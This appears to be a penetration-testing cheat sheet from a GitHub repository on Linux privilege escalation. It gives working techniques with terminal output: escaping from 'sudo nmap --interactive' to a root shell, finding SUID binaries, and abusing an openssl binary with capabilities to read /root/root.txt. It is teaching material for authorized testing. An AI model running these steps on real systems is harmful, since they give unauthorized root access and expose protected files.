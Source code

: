 # LINUX
This sheet serves as a resource for processes commonly used to escalate privileges of a low-privilege user access during the post-exploitation phase of the penetration test.
## Run the LINUX Privilege Checker Python Script
If Python is installed, **make sure that this script is ran immediately** [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) upon gaining low-level access to a target system. This script will provide quick insight into possible misconfigurations in the target system.

## SUDO Test
Testing for sudo will sometimes reveal a nice surprise. The [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) will tell you exactly which commands/programs are installed with interactive shells that can be escaped from. For instance, some older version of `nmap` had a interactivbe shell. This meant that on certain systems in which a default account has non-authenticated sudo access to it, it could easily lead to a root shell.

```
bash-3.2$ ls -lah /usr/bin/nmap
ls -lah /usr/bin/nmap
-rwxr-xr-x 1 root root 523K Jan  6  2007 /usr/bin/nmap
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! /bin/bash
! /bin/bash
bash-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# 
```
So, it is **very important** that all of these are tested with sudo.

## SUID Test
Some of the aforementioned applciations which can be escaped from may have a SUID bit set in the permissions. This means that the effective user ID becomes that of the file's owner. **Again, test all of these** applications, **without sudo** if the attack above is unsuccessful because some of the file permissions may not be set correctly. You'd be surprised.

```
user@target-machine:~$ find / \( -perm -2000 -o -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```
Search for the sticky bit:
```
user@target-machine:~$ find / -perm -u=s -type f 2>/dev/null 
```
## Capabilities
Sometimes files have extra capabilities. To find special capabilities on files, you can try using the `getcap` command on every file in the file system. This can be very slow on actual physical machines - but for VMs and solid state drives, it shouldn't be too bad. You can utilize the `find` command to do this as so,
```
root@attacker-machine:~# find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
/usr/bin/command = cap_dac_read_search+ei
```
Then, we can try to analyze the command as a binary with `strings`, `gdb`, or test it by fuzzing, or execution trial an error.
### OpenSSL
Here is an OpenSSL example of how to utilize Unix Capabilities to read a file that you don't have read access to. If we use `openssl` which has the capabilities set as `=ep`, as shown below,
```
unprivuser@target-system:~$ find . * 2>/dev/null | xargs -I {} getcap {} 2>/dev/null
openssl =ep
```
We can run `./openssl` to encrypt a file for us, then again to decrypt it. This process essentially creates a new file which we have permission to read. Try this,
```
unprivuser@target-system:~$ ./openssl aes-256-cbc -a -salt -in /root/root.txt -out root.txt.enc
enter aes-256-cbc encryption password:
Verifying - enter aes-256-cbc encryption password:
unprivuser@target-system:~$ ls -lah
-rw-rw-r--. 1 unprivuser unprivuser   90 Jan 18 14:28 root.txt.enc
```
Now we decrypt the new file, using the password we chose during the encryption process, and we can read ikt's contents.
```
unprivuser@target-system:~$ openssl aes-256-cbc -d -a -in root.txt.enc -out root.txt
enter aes-256-cbc decryption password:
unprivuser@target-system:~$ cat root.txt
This was a privileged flag file in /root ! How did you read me!?!
unprivuser@target-system:~$
```
